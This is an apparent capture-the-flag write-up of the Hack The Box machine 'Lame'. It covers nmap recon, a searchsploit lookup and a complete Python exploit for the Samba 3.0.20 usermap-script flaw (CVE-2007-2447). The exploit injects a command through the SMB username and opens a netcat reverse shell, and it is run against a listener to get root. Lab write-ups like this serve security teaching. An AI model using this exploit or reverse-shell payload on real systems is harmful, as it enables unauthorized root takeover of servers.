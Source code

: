 # Lame

## Recon
First thing I did was run nmap on the machine:
```bash
sudo nmap -A -T4 10.10.10.3
```

This showed several open ports - 21, 22, 139, 445

445 caught my eye as smb is notoriously weak, and reading down in the nmap results showed this:
```
Host script results:
|_clock-skew: mean: 1h12m32s, deviation: 2h49m43s, median: -47m28s
| smb-os-discovery:
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name:
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2021-08-15T14:46:52-04:00
| smb-security-mode:
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
```

This gave me the version - `Samba 3.0.20-Debian`

## Finding an Exploit

Using searchsploit confirmed that the version was vulnerable:

```bash
kali@kali$ searchsploit Samba 3.0.20

------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                    |  Path
------------------------------------------------------------------ ---------------------------------
Samba 3.0.10 < 3.3.5 - Format String / Security Bypass            | multiple/remote/10095.txt
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Executi | unix/remote/16320.rb
Samba < 3.0.20 - Remote Heap Overflow                             | linux/remote/7701.txt
Samba < 3.0.20 - Remote Heap Overflow                             | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial of Service (PoC)                     | linux_x86/dos/36741.py
------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

I chose the 'Username' map script, a quick google search found this simple python script - https://github.com/amriunix/CVE-2007-2447


## Running the Exploit

1. I added the script to a file named `usernamemap_script.py`:
```python
import sys
from smb.SMBConnection import SMBConnection

def exploit(rhost, rport, lhost, lport):
        payload = 'mkfifo /tmp/hago; nc ' + lhost + ' ' + lport + ' 0</tmp/hago | /bin/sh >/tmp/hago 2>&1; rm /tmp/hago'
        username = "/=`nohup " + payload + "`"
        conn = SMBConnection(username, "", "", "")
        try:
            conn.connect(rhost, int(rport), timeout=1)
        except:
            print("[+] Payload was sent - check netcat !")

if __name__ == '__main__':
    print("[*] CVE-2007-2447 - Samba usermap script")
    if len(sys.argv) != 5:
        print("[-] usage: python " + sys.argv[0] + " <RHOST> <RPORT> <LHOST> <LPORT>")
    else:
        print("[+] Connecting !")
        rhost = sys.argv[1]
        rport = sys.argv[2]
        lhost = sys.argv[3]
        lport = sys.argv[4]
        exploit(rhost, rport, lhost, lport)
```
2. Started up a netcat listener:
```bash
nc -nlvp 4444
```

3. Ran the python script:
```bash
python3 usernamemap_script.py 10.10.10.3 445 10.10.16.200 4444
```
## Success!
This gave me a root reverse shell.

`dir` showed me the `root.txt` file and `cat root.txt` yielded the flag.
